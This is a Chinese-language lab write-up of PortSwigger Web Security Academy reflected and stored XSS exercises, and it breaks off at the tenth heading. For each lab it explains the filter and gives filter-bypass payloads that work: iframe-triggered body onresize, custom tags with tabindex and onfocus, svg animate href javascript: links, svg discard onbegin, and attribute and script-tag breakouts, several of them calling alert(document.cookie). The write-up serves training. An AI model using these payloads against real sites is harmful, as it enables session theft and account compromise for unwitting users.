

**目录：**

[TOC]

#### 1. Reflected XSS into HTML context with nothing encoded

很简单的一道题，有手就行

#### 2. Reflected XSS into HTML context with most tags and attributes blocked

题目说过滤了大多数标签，去找找还有什么标签可以使用。

直接用burp爆破tag和event（看状态码）

得到了tag为`body`，event为`onresize`

`onresize`要在窗口大小被改变的时候触发

用题目的exlpoit，在body部分构造一个iframe，然后onload事件在触发的时候改变大小

payload:(因为是在body部分，记得提前转码，好像不用转码也能过)

```html
<iframe src="https://acc91f9b1fff1f7980540718002a0084.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
<iframe src="https://ac321fb51e21f4e780230d4600710017.web-security-academy.net/?search=<body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
```

#### 3. Reflected XSS into HTML context with all tags blocked except custom ones

* 交互情况

过滤了除过自定义标签之外的所有HTML标签，但可以使用自定义标签。

自定义标签无法使用`onload`属性，但是onfocus可以使用，即聚焦触发（点击，而且可以多次），所以为了聚焦，还得需要给其聚焦的属性--`tabindex`

> **tabindex** [全局属性](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes) 指示其元素是否可以聚焦，以及它是否/在何处参与顺序键盘导航（通常使用Tab键，因此得名）。
>
> - tabindex=负值 (通常是tabindex=“-1”)，表示元素是可聚焦的，但是不能通过键盘导航来访问到该元素，用JS做页面小组件内部键盘导航的时候非常有用。
> - `tabindex="0"` ，表示元素是可聚焦的，并且可以通过键盘导航来聚焦到该元素，它的相对顺序是当前处于的DOM结构来决定的。
> - tabindex=正值，表示元素是可聚焦的，并且可以通过键盘导航来访问到该元素；它的相对顺序按照**tabindex** 的数值递增而滞后获焦。如果多个元素拥有相同的 **tabindex**，它们的相对顺序按照他们在当前DOM中的先后顺序决定。

`<xss tabindex=1 onfocus="alert(document.cookie)">`

但是聚焦的话，需要一个可以聚焦的对象，所以需要（可显示的）文字

`<xss tabindex=1 onfocus="alert(document.cookie)">aaaaa`

>**补充：经过仔细实测，不用（可显示的）文字也能聚焦触发，即对着前（或后）相应的位置按下即可**

payload:(exploit server)

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">aaaaa';
</script>
```

* 自动触发

自动触发的话，需要用户点击进入页面（exploit server）就自动聚焦，

为了实现自动聚焦，我们给标签添加一个id，然后在后面加上锚点，使用`#`

> <a>标记可以指向具有id属性的任何元素。
>
> 打开链接的时候也是同理

`<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x`

最终payload：

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x';
</script>
```

#### 4. Reflected XSS with event handlers and `href` attributes blocked

可用的tag有：a, animate, discard, image, svg, title

可用的event有：...一个都没有

href属性也不能用。应该是不能使用`href=`

但是在svg标签存在的情况下，animate可以给上一个标签赋值。

如

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/>Click me</a></svg>
```

> <animate attributeName=href values="javascript:alert(1)"/> 等同于
>
> <animate attributeName=href values="javascript:alert(1)"></animate>
>
> 即马上在后面添加标签结束符

这样就可以成功把`<a>`变成`<a href="javascript:alert(1)">`

但是这样不会显示`Click me`那个文本，因为在`<svg>`标签下，需要一个框的大小才能正常显示文字

添加大小的方式：`<text x=20 y=20>`或者`<rect width=100% height=100%>`(要求text标签包含文字)

所以最终payload：

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/><text x=20 y=20>Click me</text></a></svg>
<svg><a><animate attributeName=href values="javascript:alert(1)"/><rect width=100% height=100%>Click me</rect></a></svg>
```

#### 5.Reflected XSS with some SVG markup allowed

然后爆破出来可以用discard,image, svg, title四个标签以及onbegin事件

直接去[XSS-payload](../字典/XSS-payload.txt)搜索discard和onbegin

最终找到了`<svg><discard onbegin=alert(1)>`

#### 6.Reflected XSS into attribute with angle brackets HTML-encoded

题目的意思是，过滤了`<` 和`>`，并将它们替换成命名实体

显示考虑到用`<svg>`标签进行反实例化，但是`<svg>`本身就包含尖括号，已经不起作用

我一开始以为这个只会在顶上显示，然后后面翻了一下，发现有一个value，这就简单了，直接封闭然后onclick

```
"onclick="alert(1)
```

确实弹窗了，但是不给过，看了一下答案，用的是onmouseover，就很疑惑

payload

```
"onmouseover="alert(1)
```

#### 7.Stored XSS into anchor `href` attribute with double quotes HTML-encoded

这个题漏洞出在提交评论的地方。提交了几次之后发现位置。


发现没有过滤。。。就直接输入就可以了。

#### 8.Reflected XSS in canonical link tag

按键触发。canonical link tag。


发现位置。

首先需要闭合前面的，双引号被过滤了，用单引号。

payload：

```
url/?%27accesskey=%27x%27onclick=%27alert(1)
url/?%27accesskey=%27x%27onclick=%27alert(1)%27
```

#### 9.Reflected XSS into a JavaScript string with single quote and backslash escaped



找到位置。

没有过滤，直接闭合前面的script

payload：

```
</script><script>alert(1)</script>
```

#### 10.Reflected XSS into a JavaScript string with angle brackets HTML encoded

